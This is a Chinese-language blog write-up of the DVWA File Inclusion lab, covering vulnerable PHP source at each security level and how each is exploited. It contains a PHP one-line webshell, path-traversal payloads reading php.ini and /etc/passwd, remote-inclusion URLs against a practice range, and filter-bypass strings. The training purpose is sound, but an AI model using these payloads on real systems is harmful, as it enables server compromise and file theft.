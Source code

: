 ```yaml
---
layout:     post
title:      dvwa之File Inclusion
subtitle:   dvwa的文件包含
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - 文件包含
---
```


## 前言
File Inclusion，意思是文件包含（漏洞），是一种代码处理方式，当一个代码文件想要引用另外一个代码文件，就要用到包含。当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

## Low
#### 源码审查
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```
> 服务器对page参数没有做任何过滤检查

![gFlzS.png](https://s3.jpg.cm/2021/02/19/gFlzS.png)

> 服务器期望用户的操作是点击上面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

#### 漏洞利用
###### 0x01 分析
&emsp;&emsp;尝试修改参数为test.php看一下，发现什么都没有

![](https://img-blog.csdnimg.cn/20201130205317368.png)

&emsp;&emsp;说明这个参数可以利用，盲猜这三个php文件是在一个目录里边的，应该是这样
![](https://img-blog.csdnimg.cn/20181221141159427.png)

&emsp;&emsp;因此我们想要包含跟目录里边的php.ini文件，就要跳转到上两级目录
> 读取www\DVWA\php.ini
> include(“www\DVWA\php.ini”)
> include("www\DVWA\vulnerabilities\fi\../../php.ini")
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020113021052722.png)
&emsp;&emsp;发现allow_url_include和allow_url_fopen是开着的，因此进行远程文件执行

###### 0x02 远程文件执行
&emsp;&emsp;在自己的服务器上放置一个phpinfo.txt文件或者是一句话木马都可以，然后进行远程包含，只要后缀改为php就可以执行，但是如果是非php文件，只要文件里为php格式的代码就可以执行。我们要清楚远程的执行不是在攻击者的web服务器上执行，而是在受害者web服务器上执行命令，所以phpinfo.txt才是正经。
```php
//一句话木马
<?php @eval($_POST['cmd']); ?>
//phpinfo
<?
phpinfo();
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201130213630878.png)

> PS：下面这是在谜团靶场执行靶场的phpinfo()![gtgdh.png](https://s3.jpg.cm/2021/02/18/gtgdh.png)
```bash
http://340d990415234f43a620e1071184f98d.app.mituan.zone/vulnerabilities/fi/?page=http://340d990415234f43a620e1071184f98d.app.mituan.zone/phpinfo.php
```

## Medium
#### 源码审查
&emsp;&emsp;将输入的url参数中包含的“http://”、“https://”, “. . /” , ". . ""等字符串替换成空的字符串，
即过滤了远程文件包含, 对于绝对路径和本地文件包含并没有任何过滤。当然也可以用大小写或者双写的方式绕过。
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
?> 
```
#### 攻击方式
构造payload
```php
page=/etc/passwd
page=hTTp://www.baidu.com
page=hthttp://tp://www.baidu.com
```
![gFVIW.png](https://s3.jpg.cm/2021/02/19/gFVIW.png)

![gFuhO.png](https://s3.jpg.cm/2021/02/19/gFuhO.png)

## High
#### 源码审查

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
![2ijX8.png](https://s3.jpg.cm/2021/03/12/2ijX8.png)
构造payload
```php
http://aac53b825fac44e39d4d050d00135c36.app.mituan.zone/vulnerabilities/fi/?page=file:///etc/apache2/apache2.conf
http://aac53b825fac44e39d4d050d00135c36.app.mituan.zone/vulnerabilities/fi/?page=file4.php
http://aac53b825fac44e39d4d050d00135c36.app.mituan.zone/vulnerabilities/fi/?page=fileabc../../../../../../../etc/passwd
```

## impossible
#### 源码审查
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

给了指定的访问页面，无法文件包含